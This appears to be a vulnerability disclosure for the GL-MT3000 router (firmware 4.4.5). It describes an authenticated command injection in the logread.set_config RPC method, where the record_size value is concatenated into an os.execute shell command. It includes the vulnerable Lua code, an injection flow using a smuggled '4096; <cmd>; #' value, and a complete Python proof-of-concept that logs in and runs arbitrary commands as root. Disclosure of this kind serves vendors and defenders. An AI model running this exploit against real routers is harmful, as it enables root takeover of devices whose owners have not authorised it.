


Submission Date: 2026.5.18
Vendor: GL-MT3000
Version: 4.4.5
Firmware: openwrt-mt3000-4.4.5-0811-1691754744.tar
Download Link: https://dl.gl-inet.cn/router/mt3000/stable


An authenticated command injection vulnerability exists in the `logread.set_config` RPC method of the affected product. The `logread` Lua RPC plugin at `/usr/lib/oui-httpd/rpc/logread` concatenates the user-supplied `record_size` parameter directly into an `insmod` shell command executed via `os.execute()`. Although the parameter is documented as a number type, no `tonumber()` coercion is enforced, allowing string injection. This is a separate, independent sink from the `get_system_log` vulnerability in the same file.

The reported vulnerable flow is:

```text
Authenticated attacker
  -> POST /rpc challenge/login -> sid
  -> POST /rpc call("logread","set_config",{"record_size":"4096; <cmd>; #"})
  -> M.set_config({record_size="4096; <cmd>; #"})
  -> os.execute("insmod .../mtdoops.ko record_size=4096; <cmd>; # mtddev=log")
  -> /bin/sh -c:
       insmod ... record_size=4096   <- incomplete, fails
       ; <cmd>                       <- RCE (root)
       ; # mtddev=log                <- commented out
```

The Lua source code at `/usr/lib/oui-httpd/rpc/logread` lines 217-228:



```lua
function M.set_config(params)
    local record_size = params.record_size   -- @in number ?record_size
    -- ...
    if record_size then
        c:set("gl_logread", "crash", "record_size", record_size)
        c:commit("gl_logread")
        os.execute("rmmod mtdoops")
        os.execute("insmod /lib/modules/4.14.221/mtdoops.ko record_size="
                   .. record_size .. " mtddev=log")   -- SINK
    end
end
```

Unlike `get_system_log` which uses `io.popen()` and returns stdout in the RPC response, `set_config` uses `os.execute()` with no output capture — the attacker must redirect command output to a file and retrieve it separately via `/download` or a second RPC call.

Exploit the vulnerability by sending a crafted HTTP request:

```python
#!/usr/bin/env python3
"""PoC: logread.set_config record_size os.execute injection — Authenticated RCE"""
import hashlib, json, ssl, subprocess, sys, urllib.request

TARGET = sys.argv[1] if len(sys.argv) > 1 else "https://192.168.8.1"
CMD    = sys.argv[2] if len(sys.argv) > 2 else "id > /tmp/poc_logread_set"
USER   = sys.argv[3] if len(sys.argv) > 3 else "root"
PASS   = sys.argv[4] if len(sys.argv) > 4 else "12345678Q!"

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

def post(path, data):
    req = urllib.request.Request(f"{TARGET}{path}", data=json.dumps(data).encode(),
        headers={"Content-Type": "application/json"}, method="POST")
    return json.loads(urllib.request.urlopen(req, timeout=15, context=ctx).read())

ch = post("/rpc", {"jsonrpc":"2.0","id":1,"method":"challenge","params":{"username":USER}})
crypt = subprocess.check_output(
    ["openssl","passwd","-1","-salt",ch["result"]["salt"],PASS], text=True).strip()
h = hashlib.md5(f"{USER}:{crypt}:{ch['result']['nonce']}".encode()).hexdigest()
sid = post("/rpc", {"jsonrpc":"2.0","id":2,"method":"login",
    "params":{"username":USER,"hash":h}})["result"]["sid"]

payload = f"4096; {CMD}; #"
r = post("/rpc", {"jsonrpc":"2.0","id":3,"method":"call",
    "params":[sid,"logread","set_config",{"record_size":payload}]})
print(f"sid={sid}")
print(f"result: {json.dumps(r, indent=2)[:300]}")
```

The exploitation is shown below.


